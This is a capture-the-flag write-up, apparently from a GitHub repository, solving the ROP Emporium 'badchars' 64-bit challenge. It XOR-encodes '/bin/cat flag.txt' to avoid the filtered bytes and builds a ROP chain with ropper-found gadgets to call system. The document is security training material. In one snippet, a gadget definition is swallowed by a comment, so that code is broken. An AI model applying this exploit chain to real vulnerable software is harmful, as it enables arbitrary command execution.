





# badchars


## 32bit


## 64bit

Like always check the buffer we know it is 40bytes but its always good to be safe.

Running it we see some pretty bad news
```
badchars are: b i c / <space> f n s
```
Which eliminates `/bin` and other goodies from our input and any gadgets that happen to have the same bytes as the above chars

Converting them to hex so later we can give the bad bytes to `ropper` so it knows to avoid them
```
0x62, 0x69, 0x63, 0x2f, 0x20, 0x66, 0x6e, 0x73
```

### Avoiding Bad Chars


Luckily ROPEmporium was nice and left a hint in the symbol table of the ELF



If they weren't that nice we could have also found that gadget and other useful gadgets by using `ropper` which is covered in **Finding Gadgets** section below

So now that we know a nice XOR gadget to be used we need to XOR the badchars in `/bin/cat flag.txt` with a key.

In this instance the key is a single letter because the useful gadget:
```
xor byte ptr [r15], r14b; ret;
```
This XORs a single byte in r15 with the low/first byte of r14. Therefore the XOR key is just be a single char

Using [xor.py](xor.py) a quick and dirty script made to help find a key that didn't produce any badchars

The key doesn't have to be the same for all of them. I just did for convience.

And only XOR the bad chars and not the whole string or later the ROPchain will have too many operations

```
"/bin/cat flag.txt" XOR "D" = "k&-*k'atd"lag.txt"
```

Now that we have disguise our favorite string we can move on to creating the payload

### Creating the Payload

The payload is made of 3 parts
1) Loading the string to memory
2) Modifying the string in memory
3) Loading the string into the system call

#### Finding Gadgets

`ropper` is a super handy gadget finder that gef uses to locate ROP gadgets. It's general usage is as follows
- A 'gadget' in ROP terms is a string of asm operations followed by a ret call so it can be chained or returned into the next part of the ropchain
- `--search` uses a regex to find your query in the asm's opcodes ex: `--search "pop rdi"` will return gadgets that contain `pop rdi`
- `-b` is used to specify bad bytes, which is critical for this challenge

```
ropper --search $QUERY -b 6269632f20666e73 #-b is bad bytes and the number is all the bad bytes above just lumped together
```

### Loading the String

Searching by `mov qword` we get mov the value of r12 into the memory address stored in r13

```
ropper --search "mov qword" -b 6269632f20666e73

0x0000000000400b34: mov qword ptr [r13], r12; ret;
```

Now we need to load data into r12 and r13

Searching for `pop r12` we get:

```
ropper --search "pop r12" -b 6269632f20666e73

0x0000000000400b3b: pop r12; pop r13; ret;
```

Now that we can load our string into memory, we need to find somewhere to place the string into memory. We can find this by looking at the ELF's sections.

Using `rabin2` from radare2
```
rabin2 -S badchars
```


Code Snip of it all together:
```
data_start = 0x601080 # pop_r12_r13 = p64(0x400b3b)
mov_r13_r12 = p64(0x400b34)
load_str_1 = pop_r12_r13 + bin_cat + p64(data_start) + mov_r13_r12
load_str_2 = pop_r12_r13 + flag_txt + p64(data_start+0x8) + mov_r13_r12
load_str_3 = pop_r12_r13 + last_bit + p64(data_start+0x10) + mov_r13_r12
load_str = load_str_1 + load_str_2 + load_str_3
```

I'm using .bss `0x601080` instead of .data `0x601070` because the third char for the string would have landed at `0x601073` which ends in a bad char `0x73` aka 's'

You could offset it by one and have the start be `0x601071` so then the third char is `0x601074` instead of `0x601073` it really doesn't matter.

But throught this whole challenge be aware of the bad chars and if something isn't working but it definately should then it's probably bad chars.

Test and get this part working before moving on.



### Modifing the String

Now that the string is loaded into memory we can modify it back to it's original state

We'll use that `usefulGadget` we found from before
```
xor byte ptr [r15], r14b; ret;
```

But we need to find a way to load data into r15 and r14
```
ropper --search "pop r14" -b 6269632f20666e73

0x0000000000400b40: pop r14; pop r15; ret;
```

Now we just need to make a ropchain with the previously used key to xor the string back to `/bin/cat flag.txt`

Code Snip of it all together:
```
key = "D".ljust(8,"\x00").encode() #left justfied so it becomes 8 bytes in length
pop_r14_r15 = p64(0x400b40)
xor_r15_r14b = p64(0x400b30)

# 'D' ^ '/'
xor_str_0 = pop_r14_r15 + key + p64(data_start) + xor_r15_r14b
# 'D' ^ 'b'
xor_str_1 = pop_r14_r15 + key + p64(data_start+0x1) + xor_r15_r14b
# 'D' ^ 'i'
xor_str_2 = pop_r14_r15 + key + p64(data_start+0x2) + xor_r15_r14b
# 'D' ^ 'n'
xor_str_3 = pop_r14_r15 + key + p64(data_start+0x3) + xor_r15_r14b
# 'D' ^ '/'
xor_str_4 = pop_r14_r15 + key + p64(data_start+0x4) + xor_r15_r14b
# 'D' ^ 'c'
xor_str_5 = pop_r14_r15 + key + p64(data_start+0x5) + xor_r15_r14b
xor_cat = xor_str_0 + xor_str_1 + xor_str_2 + xor_str_3 + xor_str_4 + xor_str_5

# 'D' ^ ' '
xor_str_8 = pop_r14_r15 + key + p64(data_start+0x8) + xor_r15_r14b
# 'D' ^ 'f'
xor_str_9 = pop_r14_r15 + key + p64(data_start+0x9) + xor_r15_r14b
xor_flag = xor_str_8 + xor_str_9

xor_str = xor_cat + xor_flag
```

Once again run and test this stage of the exploit before moving on. The less to debug is always better.




### System Call!

Now we get to feed the address of our string to the system call and get the flag!

Once again using ropper to locate a `pop rdi` since $rdi is the 1st arg in x86\_64 asm code.
```
ropper --search "pop rdi" -b 6269632f20666e73

0x0000000000400b39: pop rdi; ret;
```

And like alwasy there is a `usefulFunction`
```
gef> uf usefulFunction  or  disass usefulFunction
0x00000000004009e8 <+9>:     call   0x4006f0 <system@plt>
```

Code Snip of it all together:
```
system = p64(0x4009e8)
pop_rdi = p64(0x400b39)
system_call = pop_rdi + p64(data_start) + system

payload = load_str + xor_str + system_call
```


